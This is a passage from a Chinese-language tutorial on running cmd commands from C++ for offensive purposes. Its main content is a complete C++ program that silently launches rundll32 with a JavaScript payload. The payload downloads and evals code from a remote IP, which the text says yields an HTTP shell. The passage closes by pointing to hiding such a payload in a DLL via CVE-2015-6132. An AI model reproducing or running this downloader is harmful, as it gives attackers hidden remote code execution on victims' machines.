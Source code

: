 需要注意以下细节：

### 1、使用ShellExecute, WinExec没有区别

通过两种方式执行cmd命令都可以

### 2、cmd 参数细节

**eg：**

```
cmd /c dir 是执行完dir命令后关闭命令窗口 
cmd /k dir 是执行完dir命令后不关闭命令窗口
cmd /c start dir 会打开一个新窗口后执行dir指令，原窗口会关闭 
cmd /k start dir 会打开一个新窗口后执行dir指令，原窗口不会关闭 

```

所以在用c++执行cmd命令时，为了退出残留的cmd进程，需要用`cmd /c start`再加上需要的cmd命令

### 3、转义字符

c++中存在转义字符，我们的命令中需要的转义字符如下：

*   `"`需要用`\"`表示
*   `\`需要用`\\`表示

综上，c++的代码为

```
#include "stdafx.h"
#include <windows.h>
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    char *command="cmd.exe /c start rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new\%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");h.Open(\"GET\",\"http://192.168.174.136/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new\%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
    WinExec(command,SW_HIDE); 
    return 0;
}

```

点击exe，即可弹回HTTP shell

0x04 隐藏在dll中
=====

**开发工具：**`VC6.0`

**结合漏洞：**`CVE-2015-6132`

**细节可参考：**[http://zone.wooyun.org/content/24877](http://zone.wooyun.org/content/24877)
